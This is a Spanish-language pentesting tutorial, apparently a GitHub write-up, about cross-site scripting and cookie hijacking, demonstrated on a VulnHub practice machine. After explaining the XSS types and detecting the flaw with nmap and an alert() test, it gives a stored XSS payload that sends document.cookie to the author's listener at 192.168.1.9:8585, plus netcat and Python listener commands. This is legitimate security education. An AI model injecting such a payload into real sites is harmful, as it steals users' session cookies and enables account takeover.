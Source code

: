 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&pause=1000&color=D1F700&width=435&lines=Ataque+XSS+y+secuestro+de+Cookies"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>VULNERABILIDAD XSS</ins></h3>

Cross-Site Scripting (XSS) es uno de los ataques más conocidos y explotados en entornos web, forma parte de las 10 vulnerabilidades más frecuentes en aplicaciones web desde 2014, algunas estadísticas afirman que el 70% de los sitios web tienen al menos una vulnerabilidad de XSS. Este ataque se aprovecha de fallas de seguridad de sitios y aplicaciones web ya que permite a un atacante cargar scripts maliciosos en un sitio web del lado del navegador para que un usuario desprevenido visite el sitio y sea infectado, tal como robar sus cookies (credenciales), realizar un defacement, cargar un código malicioso para obtener sesión de la máquina víctima o simplemente redirreccionar al usuario a otro sitio malicioso (phishing).

#### ¿Cómo se inyecta el script malicioso?

Normalmente el atacante lo que hace es buscar una entrada de datos en el sitio web, como puede ser un simple input de búsqueda o formularios/campos de comentarios, así como en la misma URL con un payload precargado.

### Tipos de ataques de Croo-Site Scripting

Existen tres tipos de vectores de XSS:

**XSS indirecto** (reflejado): Es el tipo de ataque más común, el atacante inyecta el script en el sitio web y esté es ejecutado cuando el usuario hace una petición al servidor web, es entonces cuando se carga el script y se muestra como un mensaje de error. Por el lado de la víctima, se mostrará dicho mensaje y que deberá hacer clic en el enlace que se le indique, ejecutando así el código malicioso y descargando el malware en su equipo.

**XSS directo** (persistente): En este caso, el ataque persistente infecta todas las respuestas HTTP a través de la carga maliciosa por parte del atacante, la diferencia con el reflejado es que en este no es necesario atraer a la víctima y redireccionarla con un enlace; lo único que tiene que hacer es esperar que está haga clic sobre algún campo de comentario y el hackeo se produce automático, o mejor dicho, de forma pasiva.

**XSS basado en DOM**: El tercer ataque intenta escabullirse lo más que pueda, volviéndola difícil de detectar si no se profundiza el código línea por línea. El payload del ataque se ejecuta en la modificación del entorno DOM en el navegador de la víctima utilizado por el código del lado del cliente original, es decir, la respuesta HTTP no cambia, pero el contenido de la página se ejecuta de manera diferente debido a las modificaciones maliciosas del script producido en el entorno DOM. Por ejemplo, al escribir código Javascript en la URL para ser tomado como parte del HTML.

<p align="center">
  <img src="https://github.com/R3LI4NT/articulos/blob/main/Pentesting/WEB/img/ataqueXSS.png">
</p>

</br>

#### Cookies

Las cookies es un fragmento de información que es enviada por un sitio web y es almacenada en el navegador del usuario. Permite que los sitios web accedan a la información con fines estadísticos, ofrecer mejor experiencia y servicios útiles; tomando como muestra nuestra ubicación, idioma, intereses, entre otras para ofrecernos publicidad orientada. 

Desde antes ya existían las cookies solamente que no eran obligatorias mostrarlas, desde entonces cada vez que visitamos un sitio web, estas están obligadas a mostrar un mensaje de advertencia de uso de cookies y sus políticas. Las cookies son archivos temporales y su duración es temporal, por lo que podemos configurarlas, borrarlas o bloquearlas con extensiones gratuitas del navegador. Se vuelven peligrosas cuando no se suele avisar al usuario ya que pueden recopilar otros datos confidenciales.

<h1 align="center"></h1>

### DETECTAR DETECTAR VULNERABILIDAD XSS

Como muestra de ejemplo, descargué una máquina de vulnhub llamada "<a href="https://www.vulnhub.com/entry/pentester-lab-xss-and-mysql-file,66/">*PENTESTER LAB: XSS AND MYSQL*"</a> para demostrar como es posible aprovecharse de esta vulnerabilidad en un entorno controlado y legal.

![1](https://user-images.githubusercontent.com/75953873/187095720-5b148555-7d80-40b8-95b5-0d301acaf744.png)

Servidor web: `http://192.168.25.135`

Nmap contiene un script para detectar posibles vectores vulnerables a XSS.
```
nmap -p80 --script http-stored-xss.nse <TARGET>
```
![2](https://user-images.githubusercontent.com/75953873/187103485-4175545b-bcf0-49a0-9398-3ea6b2502d44.png)

También podemos hacer uso de herramientas como <a href="https://github.com/s0md3v/XSStrike">XSStrike</a>, <a href="https://github.com/pwn0sec/PwnXSS">PwnXSS</a>, entre otras existentes.

![3](https://user-images.githubusercontent.com/75953873/187104187-dc163b7c-8143-4ba5-be3a-cd23cf677eaf.png)

Pero el objetivo del post es detectar y explotar vulnerabilidad XSS de forma manual, y para eso, es preciso contar con básicos conocimientos de Javascript para inyectar código del lado del navegador y que esté sea leído y ejecutado. La ventaja de llevarlo manual es que no hace mucho ruido, por ejemplo el siguiente código emitirá una alerta y sabremos si es vulnerable a XSS o no:
```javascript

<script>alert("Vulnerable a XSS");</script>
```
![4](https://user-images.githubusercontent.com/75953873/187104531-69d35d55-df37-417c-9db1-cc1302f1155a.png)

Luego de hacer clic en "Submit" mostrará el mensaje de alerta.

![5](https://user-images.githubusercontent.com/75953873/187104588-eaaeca8f-ac55-4567-a058-fe27c894e108.png)

<h1 align="center"></h1>

### SECUESTRO DE COOKIES

Definitivamente la página es vulnerable a Cross-Site Scripting, cuando otro usuario intente hacer un comentario se ejecutará la alerta anterior, pero... -¿y ahora qué?- Bueno, aquí es donde hay que exprimir todo el jugo a esta vulnerabilidad. Según la web hay un panel de administración así que intentaré robar las cookies de un usuario privilegiado e iniciar sesión, y para ello usaré el siguiente script:
```javascript

<script>document.write('<img src="http://192.168.1.9:8585/?'+document.cookie+' "/>");</script>
```
La dirección IP local es la de mi máquina (Kali) y el puerto 8585 es donde se va a escribir y almacenar la cookie.

![6](https://user-images.githubusercontent.com/75953873/187104762-5a305614-8366-4d1e-90b3-64790bb5ebe9.png)

Ahora lo que haremos es poner a escucha el puerto 8585 y esperar a que un usuario inicie sesión para capturar la cookie. Para esto podemos usar Netcat o Python:
```
Netcat: nc -lvnp 8585
Python3: python3 -m http.server 8585
```
![7](https://user-images.githubusercontent.com/75953873/187104875-9ea540b9-0fd4-464f-b23e-c5c769cd215d.png)
